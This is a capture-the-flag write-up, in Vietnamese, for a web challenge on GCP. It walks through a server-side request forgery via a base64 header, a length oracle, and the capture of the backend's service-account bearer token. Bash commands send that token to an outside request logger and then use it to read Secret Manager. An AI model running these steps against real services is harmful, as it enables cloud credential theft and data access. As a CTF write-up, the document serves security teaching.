








## Đề bài
What's your forecast looking like?

http://34.116.80.78:9143/

## Solution
Truy cập vào challenge, ta thấy một trang SvelteKit cho xem "nhiệt độ vỏ tàu" (hull temperature) của một hạm đội tàu vũ trụ:


Bấm vào tên một con tàu thì trang hiện ra nhiệt độ của nó:

> *The fleet lives in the cloud now. Every craft phones home to the ground station to report how it's doing.*

Câu "the fleet lives in the **cloud**" là một gợi ý rất đậm — ta cứ ghi nhớ đã.

Mở DevTools tab Network, bấm một con tàu, ta thấy request:

```http!
GET /api/v1/ship/Voyager%201/temperature
X-Resolver: XeyJyZXNvbHZlciI6Imh0dHBzOi8vZW4ud2lraXBlZGlhLm9yZy93aWtpL1NwYWNlX3dlYXRoZXIifQ==
```

Có một header lạ `X-Resolver`. Giá trị trông như base64 nhưng dính chữ `X` ở đầu. Bỏ ký tự `X` đó rồi base64-decode, ta có:

```json!
{"resolver":"https://en.wikipedia.org/wiki/Space_weather"}
```



Soi đoạn client JS (file `_app/immutable/.../*.js`) để xác nhận cách header được tạo, ta thấy đoạn cần lưu ý:

```javascript!
async function T(a, t, e) {
  const r = a.currentTarget.textContent;
  ot(t, { ship: r }, !0);
  C(t).temp = await (await fetch(
    `/api/v1/ship/${encodeURIComponent(r)}/temperature`,
    { headers: { "X-Resolver": e } }
  )).text();
}
```

Nghĩa là backend sẽ **đi fetch cái URL nằm trong field `resolver`** mà ta hoàn toàn kiểm soát. Đây chính là `SSRF` kinh điển.

-> Format header: `"X" + base64(JSON {"resolver": "<URL ta chọn>"})`.

### "Nhiệt độ" thật ra là length oracle


Vấn đề: server fetch URL của ta nhưng **không trả về nội dung** — nó chỉ trả về một con số "nhiệt độ" như `3604.5°C` ở trên. Vậy con số đó từ đâu ra? Ta thử trỏ `resolver` vào vài URL có độ dài body biết trước:







| resolver | trả về |
|---|---|
| `httpbin.org/bytes/100` | `10` |
| `httpbin.org/bytes/537` | `53.7` |
| body `"42"` (2 byte) | `0.2` |

-> `temperature = len(body) / 10`. Ta chỉ đọc được **độ dài** của response, không đọc được nội dung. Đây là một `length oracle`.

### Vậy SSRF này trỏ đi đâu được?

Kiểm tra IP `http://34.116.80.78/` thuộc dải nào:
```bash!
dig -x 34.116.80.78
```

-> `78.80.116.34.bc.googleusercontent.com.`
-> server chạy trên GCP 

Gợi ý "cloud" + server chạy trên GCP khiến ta nghĩ ngay tới [GCP metadata server](https://cloud.google.com/compute/docs/metadata/overview). Ta thử:

```json!
{"resolver":"http://metadata.google.internal/computeMetadata/v1/project/project-id"}
```

May mắn thay, request `200 OK` — SSRF **chạm được** vào metadata nội bộ.

### Nhắm tới token của service account

Nhưng path thật sự đáng giá không phải `project-id`. Metadata server GCP có một endpoint cấp thẳng **access token của service account** đang gắn cho instance:

```
GET http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

Gọi được endpoint này nghĩa là lấy được một `Authorization: Bearer <token>` hợp lệ để giả danh chính service account của server — tức leo thẳng từ SSRF lên quyền GCP. 

Vấn đề là GCP metadata server **bắt buộc** mọi request phải kèm header `Metadata-Flavor: Google`, nếu không sẽ từ chối . 

Ta thử nhét thêm field `headers` vào JSON `X-Resolver` để tự chèn header đó vào request outbound, kiểm bằng `httpbin.org/headers` (echo lại header nhận được) 
-> Độ dài response **không đổi**
-> Nghĩa là backend không forward field `headers` ta khai báo. 

CRLF-inject hay đổi qua path legacy `/v1beta1`, `/0.1` cũng không ăn. Những path không cần header như `/`, `/computeMetadata/` thì đọc được nhưng vô dụng, không chứa token.

### Twist: backend tự đính kèm credential của chính nó

Vậy bài toán chốt lại là ta cần header `Metadata-Flavor: Google` trên request đi tới metadata server, nhưng không có cách nào tự chèn header vào request mà backend gửi đi. 

Ta không kiểm soát được header — nhưng **backend** thì có. Nếu server này tự nó cũng là một GCP client (dùng Cloud SDK/Google client library để gọi các API khác của Google), rất có thể nó đã cấu hình sẵn một lớp middleware tự động đính **[Authorization: Bearer <access-token-của-service-account>](https://docs.cloud.google.com/docs/authentication/rest#user-creds)** vào *mọi* request outbound. 

Nếu đúng vậy, ta không cần tự lấy token qua đường `/service-accounts/default/token` nữa — token sẽ tự "theo" request của ta đi tới bất kỳ đâu ta trỏ `resolver` vào.

Để kiểm chứng giả thuyết này mà không đọc được nội dung response (chỉ có length oracle), ta cần một endpoint phản ứng khác nhau rõ rệt tùy có hay không có header `Authorization`. 

Ta có `https://httpbin.org/bearer`:
1. trả `401` rỗng nếu thiếu `Authorization`
2. trả `200` + JSON nếu có (đúng oracle cần).

```json!
{"resolver":"https://httpbin.org/bearer"}
```



Backend nhận về **1068 byte** (nhiệt độ ~`106.8`) — tức là có body JSON dài. 
Vậy **backend tự nó đã đính kèm `Authorization: Bearer <token>`** vào mọi request outbound (~1030 ký tự token). Ta không cần tự gửi token — server tự "khoe" nó ra rồi!

-> Giờ chỉ cần làm server fetch tới **máy chủ của ta** để bắt lại cái token đó.

### Exfil token qua request-logger

Egress mở ra internet, nhưng `webhook.site`, `requestcatcher`, `oast.pro`, `hookb.in`, `pipedream`... đều bị chặn. Ta dùng `postb.in`.

:::info
**Bẫy quan trọng:** sink nào trả về redirect cross-host (vd `toptal.com` → `postb.in`) sẽ khiến thư viện `node-fetch` của backend **drop header `Authorization`** khi đi qua redirect. Nên ta phải trỏ **thẳng** vào host không redirect.
:::


Create Bin để tạo Bin

Ta encode rồi thêm X vào trước


Trong request bắt được có:


```json!
"authorization": "Bearer ya29.c.c0AZ4bNp..."
```

Google có endpoint công khai [`oauth2.googleapis.com/tokeninfo`](https://oauth2.googleapis.com/tokeninfo?access_token=) nhận access token qua query param và trả lại metadata của nó mà không cần header `Authorization` — rất tiện để soi nhanh một token lạ trước khi dùng:

```bash!
curl -s "https://oauth2.googleapis.com/tokeninfo?access_token=$TOKEN"
```



```json!
{
  "azp": "113330607461496374286",
  "aud": "113330607461496374286",
  "scope": "https://www.googleapis.com/auth/cloud-platform",
  "exp": "1790939399",
  "expires_in": "2398",
  "access_type": "online"
}
```

Field quan trọng nhất là `scope`: `https://www.googleapis.com/auth/cloud-platform` là scope rộng nhất GCP có — nó không giới hạn token vào một API cụ thể (như `devstorage.read_only` chỉ đọc được Storage), mà cho phép gọi **bất kỳ** API nào mà IAM role của service account cho phép. Kiểm tra `tokeninfo` xác nhận token này có scope `cloud-platform` — tức là một chiếc chìa khoá vạn năng cho cả project GCP.

Bash payload:
```bash!
# tạo bin hứng request
BIN=$(curl -s -X POST https://www.postb.in/api/bin | jq -r .binId)

# dựng header X-Resolver trỏ thẳng vào bin
R='{"resolver":"https://www.postb.in/'"$BIN"'"}'
H="X$(printf '%s' "$R" | base64 -w0)"

# kích hoạt SSRF
curl -s "http://34.116.80.78:9143/api/v1/ship/Voyager%201/temperature" \
  -H "X-Resolver: $H"

# đọc request backend vừa gửi tới
curl -s "https://www.postb.in/api/bin/$BIN/req/shift" | jq .headers
```


### Pivot vào GCP → flag

Dùng token như một client GCP bình thường:
1. Resource Manager bị disable, nhưng lỗi 403 lộ project number

-> project number: `613713115850`


```javascript!
{
  "name": "projects/613713115850/secrets/goog_encryption_secret/versions/1",
  "payload": {
    "data": "Q1NTQ1RGe3lvdXJfZm9yZWNhc3Rfc2F5c19sb3ZlX2lzX29uX2l0c193YXl9",
    "dataCrc32c": "492052071"
  }
}
```
Decode thu được flag


Bash Payload:
```bash!
A="Authorization: Bearer ya29.c.c0AZ4bNp..."

# 1) Resource Manager bị disable, nhưng lỗi 403 lộ project number
curl -s -H "$A" https://cloudresourcemanager.googleapis.com/v1/projects
# -> project number: 613713115850

# 2) Thử GCS (Storage) để xem token có quyền gì — không có quyền,
#    nhưng message lỗi lại tự "khai" luôn service account đang dùng:
curl -s -H "$A" "https://storage.googleapis.com/storage/v1/b?project=613713115850"
# -> 403: "meteorologist@css-ctf-2026.iam.gserviceaccount.com does not have
#    storage.buckets.list access to the Google Cloud project."

# Resource Manager bị disable, GCS thì thiếu quyền -> ta không biết chắc
# token này đụng được gì. Cách hợp lý là đi theo checklist enumerate các
# API phổ biến của GCP mà một service account dạng này hay được gán quyền
# (Compute, Storage, Secret Manager, Pub/Sub, ...) cho tới khi tìm ra API
# nào "ăn". Context của bài (gợi ý "cloud", backend tự host credential)
# khiến Secret Manager là ứng viên đáng thử sớm.

# 3) Liệt kê secret trong Secret Manager -> trúng
curl -s -H "$A" \
  https://secretmanager.googleapis.com/v1/projects/613713115850/secrets
# -> goog_encryption_secret

# 4) Đọc nội dung secret
curl -s -H "$A" \
  "https://secretmanager.googleapis.com/v1/projects/613713115850/secrets/goog_encryption_secret/versions/latest:access" \
  | jq -r .payload.data | base64 -d
```

-> Flag: `CSSCTF{your_forecast_says_love_is_on_its_way}`
